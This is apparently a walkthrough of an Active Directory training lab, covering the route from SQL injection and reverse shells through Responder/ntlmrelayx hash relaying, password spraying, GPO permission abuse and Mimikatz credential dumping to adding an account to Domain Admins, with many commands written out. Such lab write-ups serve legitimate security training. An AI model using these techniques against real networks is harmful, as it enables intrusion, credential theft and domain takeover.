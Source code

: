 # lkylabs v1

This is a detailed writeup of version 1 of lkys37en's Active Directory lab. It contains elements of network enumeration, domain enumeration, relaying and abusing configuration/misconfiguration of security controls.

**Tools**

* Empire
* Powershell
* Responder
* Bloodhound
* Powerview
* Mimikatz
* Sqlmap
* Nmap
* CrackMapExec

## Network enumeration

nmap 10.7.12.11 10.7.12.12 10.7.12.13

## Getting a foothold

Sqlmap

Sql injection on WEB01 10.7.12.12 leads to os-shell as lab\sqladmin in sqlmap

In os-shell, use oneliner ninshang Invoke-PowerShellTcp.ps1 to get a proper shell

## Get a domain user

Get list of domain users with net users /domain

### Alternative route: password spraying

[https://www.youtube.com/watch?v=hBvrC4t2hn8](https://www.youtube.com/watch?v=hBvrC4t2hn8) Generate a list of passwords [https://github.com/asciimoo/exrex](https://github.com/asciimoo/exrex)

```text
python exrex.py "(Spring|Winter|Autumn|Fall|Summer)(20)1(78)!" > passwords.txt
```

msfconsole auxiliary/scanner/http/owa\_login set pass\_file passwords.txt set user\_file usernames.txt set domain set rhost 10.7.12.10

## Domain enumeration

Bloodhound Powerview

## File share enumeration

Powerview net view \fs01 dir \fs01

Enumerate file shares. Find the \FS01.lab.local\Groupdata using dir \FS01.lab.local as sqladmin. You can also try net view \fs01

The file share contains a VPN file that can be used to open a L2 tunnel into the internal lab on 10.8.13.0/24 subnet

## Relaying

Responder ntlmrelay CME?

Launch responder and capture netntlmv2 hashes that can be relayed. Responder should pick up two users responder -I tap0 -wrf

Make a list of target machines, those should be WS05 if you check permissions of the users that are picked up.

Use ntlmrelay to relay the hashes and execute the ninshang powershell oneliner. Keep a listener ready

ntlmrelayx.py -tf targets.txt -c 'powershell.exe blabla oneliner'

A shell should now be granted on the target box as the user who's hash was relayed \(lab\DPayne\)

## GPO enumeration

Powerview

Enumerate GPOs with `Get-NetGPOGroup` to disover a GPO called MailServer-Config, which is interesting

Convert the SID of the Member to domain name

```text
Convert-SidToName S-1-5-21-1704012399-894155344-4184019992-1154
```

This resolves to BUILTIN\Administrators Enumerate GPOs further, including the MailServer-Config

```text
Get-NetGPO -DisplayName MailServer-Config | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
```

This shows that Server Admins has write permissions on the GPO.

```text
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, GenericExecute
```

We see that the group "Server Admins" has modification rights on this GPO. Let's trackthis back to which machines the GPO is applied to based on the GUID of the GPO.

```text
Get-NetOU -GUID "{2259E5B0-3B49-4704-98BB-5A9581B54E8E}" | %{Get-NetComputer -ADSpath $_}
```

The result is merely MX01.lab.local, which indicates the GPO is applied on MX01 To view the GPO itself use: `type "\\lab.local\sysvol\lab.local\Policies\{2259E5B0-3B49-4704-98BB-5A9581B54E8E}\MACHINE\Preferences\Groups\Groups.xml"`

This GPO apparently adds a group to the builtin Administrators group on MX01. This can then be edited to instead add the "Server Admins" group.

To trigger the GPO for a specific machine use: `Invoke-GpUpdate -Computer MX01 -Force`

In a few minutes the GPO should be pushed to MX01 and local admin privileges should be granted to "Server Admins". It is then possible to use WinRM or other tricks to spawn a shell on the box.

## Getting domain admin

Mimikatz

Now, execute Mimikatz to get the credentials of users on the box. This gets the credentials of BDavis, a highly privileged server admin. Spawn a shell as BDavis on the box Import Powerview on this box Now, execute Mimikatz on MX01 and discover another user and his/her plaintext credentials. This user is domain admin so spawn a new shell. An alternative here would be using token impersonation. Proceed to add yourself as a user on the domain and add yourself to the domain. net user chryzsh password /add /domain net group "Domain Admins" /add chryzsh /domain net group "Remote Desktop Users" /add lab\chryzsh /domain

